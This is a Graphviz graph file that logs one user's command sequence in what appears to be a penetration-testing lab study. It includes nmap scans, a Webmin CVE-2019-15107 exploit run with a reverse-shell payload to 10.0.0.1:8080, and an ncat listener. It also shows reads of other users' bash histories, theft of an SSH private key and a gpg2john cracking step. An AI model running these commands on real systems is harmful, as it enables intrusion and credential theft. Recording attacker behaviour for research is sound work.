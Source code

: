 // creating graph for user: 66
digraph {
	node [shape=box]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	5 [label="nmap -h A0 A1 "]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	19 [label="ls A10 "]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' M11 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' A1 A9 A12 A13 A17 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' A1 A9 A12 A13 A17 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' A1 A9 A12 A13 A17 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	61 [label="save_user.cgi A4 "]
	67 [label="useradmin_update.pl A4 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A1 A9 A12 A13 A17 "]
	83 [label="cat /etc/services M1 "]
	84 [label="less /etc/services A9 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' A9 A12 A13 A17 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A9 A12 A13 A17 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A9 A12 A13 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A9 A12 A13 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' A9 A12 A13 A17 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' A13 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' A13 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' A9 A13 A17 "]
	111 [label="chmod 600 id_rsa M15 "]
	114 [label="gpg2john id_rsa A14 "]
	0 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 102 [constraint=false]
	102 -> 111 [constraint=false]
	111 -> 114 [constraint=false]
	rankdir=LR
}
